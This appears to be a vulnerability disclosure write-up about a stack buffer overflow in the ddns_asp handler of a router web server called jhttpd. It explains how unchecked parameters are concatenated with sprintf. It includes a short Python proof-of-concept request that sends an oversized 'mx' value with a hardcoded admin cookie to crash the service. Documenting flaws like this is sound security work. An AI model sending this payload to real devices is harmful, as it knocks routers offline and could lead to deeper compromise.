 In the ddns_asp function of jhttpd, several parameters are obtained

![img](./picture/pic1.png) 

![img](./picture\pic2.png) 

If opt=add, then the following arguments will be concatenated to the stack variable via the sprintf function

![img](./picture\pic3.png) 

Because the parameter length is not verified, the stack overflow vulnerability will be caused by the long parameter during splicing

Or use FirmAE to simulate directly, connect to the shell, and run jhttpd in it

![img](./picture\pic4.png) 

and then send the payload

import requests
url="http://192.168.0.1/ddns.asp?opt=add&mx="+'0'*0x1000
headers={"cookie":"wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"}
response=requests.get(url=url,headers=headers)
print(response.text)

A segfault was found in jhttpd, which proves that the vulnerability exists

![img](./picture\pic5.png) 
